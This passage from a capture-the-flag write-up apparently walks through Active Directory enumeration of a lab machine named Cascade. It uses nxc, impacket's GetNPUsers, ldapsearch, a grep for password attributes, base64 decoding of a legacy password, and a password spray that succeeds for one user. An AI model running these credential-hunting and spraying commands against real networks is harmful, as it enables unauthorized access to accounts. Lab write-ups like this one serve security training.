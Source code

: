 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250921122331.png)

Also check users via nxc 

```
nxc smb 10.10.10.182 -u "" -p "" --users
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250921122939.png)

Checking for as-rep roast, but no hit

```
impacket-GetNPUsers -no-pass -usersfile users cascade.local/
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250921122529.png)

## LDAP

Next I start looking for credentials in LDAP

```
ldapsearch -x -H ldap://10.10.10.182 -D 'cascade\local' -b 'DC=cascade,DC=local' '(objectClass=person)' > ldap-dump
```

Easy grep serach method and we see intersting cascadeLegacyPwd. It looks like base64 

```
cat ldap-dump | grep -rHns -iE "password|passwd|pwd|secret|root|cred"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250921124613.png)

Also can be easily find via nxc:

```
nxc ldap 10.10.10.182 -u '' -p '' --query "(objectClass=person)" "*"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250921124139.png)

Trying to decode it using cyberchief we go sth looking like a password
https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=Y2xrMGJqVmxkbUU9

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250921124851.png)

Next I tried this password with all users and as expected we got hit with r.thompson

```
nxc smb 10.10.10.182 -u users -p 'rY4n5eva' --continue-on-success
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250921125012.png)

Checking for permissions I found we have access to 2 interesting shares
